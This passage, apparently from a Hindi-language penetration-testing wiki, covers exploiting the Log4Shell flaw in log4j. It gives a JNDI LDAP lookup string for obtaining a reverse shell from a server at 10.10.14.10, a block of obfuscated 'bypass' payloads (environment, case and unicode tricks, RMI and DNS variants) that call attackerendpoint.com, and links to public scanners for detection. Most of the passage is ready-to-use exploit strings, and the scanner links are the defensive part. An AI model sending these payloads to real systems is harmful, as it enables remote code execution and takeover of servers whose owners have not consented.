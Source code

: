 ![](<../../.gitbook/assets/image (1118).png>)

अब आप आसानी से एक उत्पन्न JNDI लिंक का उपयोग करके इस कमजोरी का फायदा उठा सकते हैं और एक **रिवर्स शेल** प्राप्त कर सकते हैं, बस एक कमजोर संस्करण के log4j को भेजकर: **`${ldap://10.10.14.10:1389/generated}`**

### बायपास
```java
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/} //Notice the use of rmi
${${::-j}ndi:dns://attackerendpoint.com/} //Notice the use of dns
${${lower:jnd}${lower:${upper:ı}}:ldap://...} //Notice the unicode "i"
```
### Automatic Scanners

* [https://github.com/fullhunt/log4j-scan](https://github.com/fullhunt/log4j-scan)
* [https://github.com/adilsoybali/Log4j-RCE-Scanner](https://github.com/adilsoybali/Log4j-RCE-Scanner)
* [https://github.com/silentsignal/burp-log4shell](https://github.com/silentsignal/burp-log4shell)
* [https://github.com/cisagov/log4j-scanner](https://github.com/cisagov/log4j-scanner)
* [https://github.com/Qualys/log4jscanwin](https://github.com/Qualys/log4jscanwin)
* [https://github.com/hillu/local-log4j-vuln-scanner](https://github.com/hillu/local-log4j-vuln-scanner)
* [https://github.com/logpresso/CVE-2021-44228-Scanner](https://github.com/logpresso/CVE-2021-44228-Scanner)
* [https://github.com/palantir/log4j-sniffer](https://github.com/palantir/log4j-sniffer) - स्थानीय कमजोर पुस्तकालयों को खोजें
